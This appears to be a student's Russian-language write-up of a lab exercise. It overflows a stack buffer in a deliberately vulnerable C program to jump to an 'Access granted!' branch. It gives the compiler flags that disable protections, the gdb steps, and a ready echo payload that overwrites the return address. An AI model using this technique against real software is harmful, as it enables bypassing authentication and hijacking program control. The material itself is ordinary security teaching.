 Небольшое объяснение к выполненной работе.

Чтобы выполнить задание, нужно определить два основных момента:
1 - Длина массива для ввода пароля (12 байт)
2 - Адрес строки "Access granted!"

Как я это выполнял.

Компилируем проект с нужными флагами gcc -o vulnerable vulnerable.c -fno-stack-protector -no-pie
Запускаем проект через gdb отладчик gdb ./task2
Через disassemble ищем инструкцию, где выводится "Access granted!\n" и получаю адрес этой инструкции
Узнаю адрес возврата и создаю input.txt файл. Адрес возврата 0x4011d8 в формате little-endian будет использоваться последовательность байт \xd8\x11\x40\x00\x00\x00\x00\x00.
заполняю input.txt echo -ne "AAAAAAAAAAAAAAAABBBB\xd8\x11\x40\x00\x00\x00\x00\x00" > input.txt
Запускаю программу и перенапрвляю ввод из файла: ./task2 < input.txt
Получаю в результате выполнения программы нужный результат, представленный в скриншоте